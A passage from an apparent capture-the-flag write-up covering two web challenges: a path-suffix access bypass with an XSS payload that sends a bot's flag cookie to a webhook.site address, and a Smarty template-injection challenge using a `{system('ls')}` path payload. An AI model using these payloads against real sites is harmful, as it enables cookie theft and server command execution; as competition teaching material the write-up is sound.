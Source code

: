 This only allows requests from localhost. I had originally considered that the application must be running on a localhost port and would allow us to access it from the bot's context (considering the bot source suggest a challenge URL of localhost:1337) but this is not the case. Eventually I realized we must find a bypass for this directive and a common trick is to append an allowed path to the disallowed one. Visiting`/info.php/index.php` will display the page. 

## Putting it all together
So we will make the bot fetch `/info.php/index.php` and then read the cookie. Unfortunately, the content of this page is massive and not easy to send over to a webhook. I decided to use some splits to make my payload a bit shorter.

```js
fetch("/info.php/index.php").then(r=>r.text().then(x=>window.location.href=`https://webhook.site/<snip>/${btoa(x.split("_COOKIE[\'FLAG\']")[1].split("$_SERVER")[0])}`))
```

In the end I missed out on first blood by a few minutes :(

# web/untitled-smarty-challenge (13 Solves)
The next challenge we solved was this PHP challenge running the Smarty template system. It's a pretty small challenge (again) which I enjoy seeing. The source code is as follows:

```php
<?php
require  'vendor/autoload.php';
use Smarty\Smarty;
$smarty = new  Smarty();

if (isset($_GET['page']) && gettype($_GET['page']) === 'string') {
	$file_path = "file://"  .  getcwd() .  "/pages/"  .  $_GET['page'];
	$smarty->display($file_path);
} else {
	header('Location: /?page=home');
};
?>
```
We can see that it will accept any file we pass and consider it a Smarty template. This strongly hints towards some sort of SSTI. It is also worth noting that an `open_basedir` directive exists which only allows PHP to read within the `/app` directory. This means that, unless we find a bypass, we can't do any fancy PHP session trickery to get our template file onto the server.

## Finding SSTI
Pretty quickly after running the docker I noticed a `/app/templates_c` directory spawned. Analyzing its contents it would appear that each time a template is rendered by Smarty it will be compiled into a PHP file and written to this directory. I noticed that it contains value from the URL which were directly written to the PHP file (but escaped).

The files are only created if a template is rendered so we need a proper path containing our SSTI payload. The first thing I tried was `/?page=../{system('ls')}/../pages/home` which rendered the home template successfully and wrote a file to `/app/templates_c` which contained our SSTI payload. Testing locally, I copied the name of this file that was created and I loaded it in `/?page=../templates_c/FILE_NAME_HERE` and I could see that my template was interpreted! Unfortunately, this application is running Smarty 5 and the system call is no longer considered valid.
